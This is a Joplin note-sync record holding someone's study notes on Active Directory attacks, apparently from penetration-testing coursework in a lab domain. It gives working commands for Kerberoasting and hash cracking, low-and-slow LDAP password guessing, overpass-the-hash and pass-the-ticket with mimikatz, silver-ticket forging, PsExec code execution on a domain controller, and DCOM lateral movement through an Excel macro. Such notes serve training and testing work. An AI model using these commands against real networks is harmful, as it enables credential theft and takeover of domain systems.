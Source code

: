 id: 43f37ae00ee7461bad5a6a16c4515582
parent_id: 
item_type: 1
item_id: fa6e1ab4dd3643a1bda0138f71a5212b
item_updated_time: 1646016691790
title_diff: "[{\"diffs\":[[1,\"07865553b30a4727ac88b108b5e909ef\"]],\"start1\":0,\"start2\":0,\"length1\":0,\"length2\":32}]"
body_diff: "[{\"diffs\":[[1,\"AD Attacks\\\r\\\n\\\r\\\n# Service Account Attacks\\\r\\\n\\\r\\\nWhen requesting the service ticket from DC, no checks are performed on user privileges to access service hosted by SPN.\\\r\\\n\\\r\\\nChecks only comes in when the connection is attempting to establish\\\r\\\n\\\r\\\n- If we know the SPN, we can request a service ticket for it from DC\\\r\\\n- Since it is our 'own ticket', we can extract from local memory and save it to disk\\\r\\\n\\\r\\\nOnce we know the SPN, we can use KerberosRequestorSecurityToken class to request the service ticket\\\r\\\n\\\r\\\n> Add-Type -AssemblyName System.IdentityModel\\\r\\\n\\\r\\\n> New-Object System.IdentityModel.Tokens.KerberosRequestorSecurityToken -ArgumentList 'HTTP/CorpWebServer.corp.com'\\\r\\\n\\\r\\\nCalling the above command will generate the service ticket and store it in the local memory of the Win10 client.\\\r\\\n\\\r\\\n## Get the cached kerberos ticket\\\r\\\n\\\r\\\n> In mimikatz, kerberos::list; kerberos::list /export # to download to disk\\\r\\\n> \\\r\\\n> If on the machine, use klist\\\r\\\n\\\r\\\n![1b7e52ca98f75e117cd2e487882543cf.png](:/c273288a75a44e39901f7c7a2a5dff33)\\\r\\\n\\\r\\\n## Crack the hashes using the ticket and by brute force or guessing (Kerberoasting)\\\r\\\n\\\r\\\n![367e79dab9b577f2ec00eb46c9134e08.png](:/ac14701b32404969bfdd8d53a9539787)\\\r\\\n\\\r\\\n> python3 /usr/share/kerberoast/tgsrepcrack.py /usr/share/wordlists/rockyou.txt &lt;Hashfile&gt;\\\r\\\n\\\r\\\n![0d936d7ffcacd07e0364e17519bae856.png](:/ffb80db75a474daf8d4341907541ab71)\\\r\\\n\\\r\\\nWe can also use the hashcat or john to do the same thing\\\r\\\n\\\r\\\nThis technique is VERY POWERFUL if\\\r\\\n\\\r\\\n- Domain contains high-privilege service accounts with weak passwords (quite common)\\\r\\\n- (Group) Managed service accounts' Passwords are not randomly generated in high complexity (most cases on cloud instances these days)\\\r\\\n\\\r\\\n![cf1a0503d28dfc769f5521f7ab3b1398.png](:/25d9546d449c4223b2453bb8ea215c09)\\\r\\\n\\\r\\\n# Low and Slow Password Guessing\\\r\\\n\\\r\\\nFor scenarios where Caution on many failed attempts will block the account\\\r\\\n\\\r\\\nWill use LDAP and ADSI to perform the attack without triggering a account lockout\\\r\\\n\\\r\\\nDomain's account policy can be checked using net accounts\\\r\\\n\\\r\\\n![314c3a15a0499d844cf0e296dc958561.png](:/00025d3a270a4dcfb826455dd095d0b3)\\\r\\\n\\\r\\\nWe can use our powershell script to demonstrate the basic components.\\\r\\\n\\\r\\\nUse the function DirectoryEntry constructor to perform queries to the DC as any user that we know the login to\\\r\\\n\\\r\\\n```Powershell\\\r\\\n$domainObj = [System.DirectoryServices.ActiveDirectory.Domain]::GetCurrentDomain()\\\r\\\n$PDC = ($domainObj.PdcRoleOwner).Name\\\r\\\n\\\r\\\n$SearchString = \\\"LDAP://\\\"\\\r\\\n$SearchString += $PDC + \\\"/\\\"\\\r\\\n\\\r\\\n$DistinguishName = \\\"DC=$($domainObj.Name.Replace('.',',DC='))\\\"\\\r\\\n\\\r\\\n$SearchString += $DistinguishName\\\r\\\nNew-Object System.DirectoryServices.DirectoryEntry($Searchstring, \\\"username\\\", \\\"Qwerty09!\\\")\\\r\\\n```\\\r\\\n\\\r\\\n![985c4eba39ff324baaf6eea227a2d5d6.png](:/d8f92b6eaa154116bbcb776f5801a5e3)\\\r\\\n\\\r\\\nYou can look at Spray-Passwords.ps1 inside the downloads folder (or locate it )\\\r\\\n\\\r\\\n# Lateral Movement\\\r\\\n\\\r\\\nUsing only the user's password hash or kerberos ticket\\\r\\\n\\\r\\\nPass-the-Hash - see pth-winexe\\\r\\\n\\\r\\\n## Overpass the hash\\\r\\\n\\\r\\\n\\\"Over\\\" abuse a  NTLM user hash to gain Kerberos TGT or service ticket, similar to pth-winexe\\\r\\\n\\\r\\\nIn mimikatz\\\r\\\n\\\r\\\n> sekurlsa::pth /user:jeff_admin /domain:corp.com /ntlm:&lt;NTLMhash&gt; /run:Powershell.exe\\\r\\\n\\\r\\\nOnce we are in, list the kerberos tickets with klist\\\r\\\n\\\r\\\nIf no tickets are available, we can generate a TGT by authenticating to a network share on DC\\\r\\\n\\\r\\\n> net use \\\\\\\\\\\\dc01\\\r\\\n> \\\r\\\n> klist\\\r\\\n\\\r\\\n![30be3f0779d3569412dca5fc83ee6b85.png](:/16c8ba6b552d4c258c9a200d4a00557a)\\\r\\\n\\\r\\\nWith the Kerberos TGT, we can use any tools that rely on its auth.\\\r\\\n\\\r\\\n**Obtain Code Execution on the DC (using PsExec)**\\\r\\\n\\\r\\\n> ./PsExec.exe \\\\\\\\\\\\dc01 cmd.exe\\\r\\\n\\\r\\\n## Pass-The-Ticket\\\r\\\n\\\r\\\nTakes advantage of the TGS, as it may be exported and re-injected back elsewhere in the network and then used to auth a specific service.\\\r\\\n\\\r\\\nSuitable for cases where you do not have administrative accounts to execute the other methods.\\\r\\\n\\\r\\\n- Does not offer escalation; offer flexibilty to choose which machine to use the ticket from\\\r\\\n- If a service is registered with SPN and it is a local admin in any server, then use the previous methods\\\r\\\n\\\r\\\nUser and Group permissions in the service ticket are not verified by the application - app blindly trusts the integrity of the service ticket\\\r\\\n\\\r\\\n- Forge our own service ticket to access the target resource with any permissions we desire - **Silver Ticket**\\\r\\\n\\\r\\\n![b2722ba9be0c5bb4eb1a7e4a5d65dfd8.png](:/acc30ecf76ca497ca2426b9405549a62)\\\r\\\n\\\r\\\nWe can get the domain SID by using:\\\r\\\n\\\r\\\n> whoami /user\\\r\\\n\\\r\\\n![5d5e2a2710b9c078c4247c651997436b.png](:/bd0cf4f1c7e24611a040622ddf381854)\\\r\\\n\\\r\\\n![8faa77505f9635a0382d3e60d856198c.png](:/817109c8049a46b29aa916897651b50c)\\\r\\\n\\\r\\\nMethod to craft the ticket in Mimikatz\\\r\\\n\\\r\\\n> kerberos::purge\\\r\\\n> \\\r\\\n> kerberos::list # make sure it is empty\\\r\\\n> \\\r\\\n> kerberos::golden /user:offsec /domain:corp.com /sid:S-1-5-21-4038953314-3014849035-1274281563 /target:CorpWebServer.corp.com /service:HTTP /rc4:2892d26cdf84d7a70e2eb3b9f05c425e /ptt\\\r\\\n\\\r\\\n/rc4: the password hash of the iss_service service account\\\r\\\n\\\r\\\n![9fc60b320e5aa47a7e225ce1359d6855.png](:/c2469c7d959143ee983bd3c924f4c851)\\\r\\\n\\\r\\\nhttps://github.com/backlion/Offensive-Security-OSCP-Cheatsheets/blob/master/offensive-security-experiments/active-directory-kerberos-abuse/kerberos-silver-tickets.md\\\r\\\n\\\r\\\nAs follow up steps, we should inject the ticket into the memory and obtain a shell in the server we want to move to\\\r\\\n\\\r\\\n> mimikatz # kerberos::ptt &lt;ticket\\\\_kirbi\\\\_file&gt;\\\r\\\n> \\\r\\\n> CMD # .\\\\PsExec.exe -accepteula \\\\\\\\\\\\labwws02.jurassic.park cmd\\\r\\\n\\\r\\\nhttps://book.hacktricks.xyz/windows/active-directory-methodology/silver-ticket \\\r\\\n\\\r\\\n## DCOM (Distributed Component Object Model)\\\r\\\n\\\r\\\n![eacbf526701e8e59c1c68f4135a16115.png](:/356f1d18b595411893837bd94518826a)\\\r\\\n\\\r\\\nMust install Microsoft Office to work\\\r\\\n\\\r\\\n![e14ca8cd90ebfe9df26a40ef243c7a40.png](:/0b09b2488a1847279bd93cf3e68d5a79)\\\r\\\n\\\r\\\n![2740720923bf93debf65acfab719f817.png](:/654a3d7ad75d42a7a27311a43ae3d8a5)\\\r\\\n\\\r\\\nThis error occurs because Excel.Application is instantiated through DCOM, which is done with SYSTEM account\\\r\\\n\\\r\\\nSYSTEM does not have a profile. To fix this problem, we can simply create the Desktop folder at C:\\\\\\\\Windows\\\\\\\\SysWOW64\\\\\\\\config\\\\\\\\systemprofile\\\r\\\n\\\r\\\nCreate the directory with the following PowerShell code:\\\r\\\n\\\r\\\n> $Path = \\\"[\\\\\\\\\\\\192.168.1.110\\\\\\\\c$\\\\\\\\Windows\\\\\\\\sysWOW64\\\\\\\\config\\\\\\\\systemprofile\\\\\\\\Desktop](file:///\\\\\\\\192.168.1.110\\\\c$\\\\Windows\\\\sysWOW64\\\\config\\\\systemprofile\\\\Desktop)\\\"\\\r\\\n\\\r\\\n> $temp = \\\\[system.io.directory\\\\]::createDirectory($Path)\\\r\\\n\\\r\\\nCalling the Open method again should now succeed. We can then call the Run method with the following script:\\\r\\\n\\\r\\\n> $com = \\\\[activator\\\\]::CreateInstance(\\\\[type\\\\]::GetTypeFromProgId(\\\"Excel.Application\\\", \\\"192 .168.1.110\\\"))\\\r\\\n\\\r\\\n> $LocalPath = \\\"C:\\\\\\\\Users\\\\\\\\jeff_admin.corp\\\\\\\\myexcel.xls\\\"\\\r\\\n> \\\r\\\n> $RemotePath = \\\"[\\\\\\\\\\\\192.168.1.110\\\\\\\\c$\\\\\\\\myexcel.xls](file:///\\\\\\\\192.168.1.110\\\\c$\\\\myexcel.xls)\\\" \\\\[System.IO.File\\\\]::Copy($LocalPath, $RemotePath, $True)\\\r\\\n> \\\r\\\n> $Path = \\\"[\\\\\\\\\\\\192.168.1.110\\\\\\\\c$\\\\\\\\Windows\\\\\\\\sysWOW64\\\\\\\\config\\\\\\\\systemprofile\\\\\\\\Desktop](file:///\\\\\\\\192.168.1.110\\\\c$\\\\Windows\\\\sysWOW64\\\\config\\\\systemprofile\\\\Desktop)\\\" $temp = \\\\[system.io.directory\\\\]::createDirectory($Path)\\\r\\\n> \\\r\\\n> $Workbook = $com.Workbooks.Open(\\\"C:\\\\\\\\myexcel.xls\\\") $com.Run(\\\"mymacro\\\")\\\r\\\n\\\r\\\nThis code should open the Notepad application as a background process executing in a high integrity context on the remote machine\\\r\\\n\\\r\\\n![5307d353cd314b401df7b8194ae1ff6a.png](:/e601279c1971474a9fffec016c8c44b8)\\\r\\\n\\\r\\\nid: 07865553b30a4727ac88b108b5e909ef\\\r\\\nparent_id: ac0bd99a1a324cb6a297fd05a2b92039\\\r\\\ncreated_time: 2022-01-30T16:15:32.188Z\\\r\\\nupdated_time: 2022-01-31T02:32:41.777Z\\\r\\\nis_conflict: 0\\\r\\\nlatitude: 0.00000000\\\r\\\nlongitude: 0.00000000\\\r\\\naltitude: 0.0000\\\r\\\nauthor: \\\r\\\nsource_url: \\\r\\\nis_todo: 0\\\r\\\ntodo_due: 0\\\r\\\ntodo_completed: 0\\\r\\\nsource: joplin-desktop\\\r\\\nsource_application: net.cozic.joplin-desktop\\\r\\\napplication_data: \\\r\\\norder: 0\\\r\\\nuser_created_time: 2022-01-30T16:15:32.188Z\\\r\\\nuser_updated_time: 2022-01-31T02:32:41.777Z\\\r\\\nencryption_cipher_text: \\\r\\\nencryption_applied: 0\\\r\\\nmarkup_language: 1\\\r\\\nis_shared: 0\\\r\\\nshare_id: \\\r\\\nconflict_original_id: \\\r\\\nmaster_key_id: \\\r\\\ntype_: 1\"]],\"start1\":0,\"start2\":0,\"length1\":0,\"length2\":8027}]"
metadata_diff: {"new":{"id":"fa6e1ab4dd3643a1bda0138f71a5212b","parent_id":"fb73d1d872ce4ee6ab184091f1e4c67b","latitude":"0.00000000","longitude":"0.00000000","altitude":"0.0000","author":"","source_url":"","is_todo":0,"todo_due":0,"todo_completed":0,"source":"joplin-desktop","source_application":"net.cozic.joplin-desktop","application_data":"","order":1646016691778,"markup_language":1,"is_shared":0,"share_id":"","conflict_original_id":"","master_key_id":""},"deleted":[]}
encryption_cipher_text: 
encryption_applied: 0
updated_time: 2022-02-28T02:54:21.422Z
created_time: 2022-02-28T02:54:21.422Z
type_: 13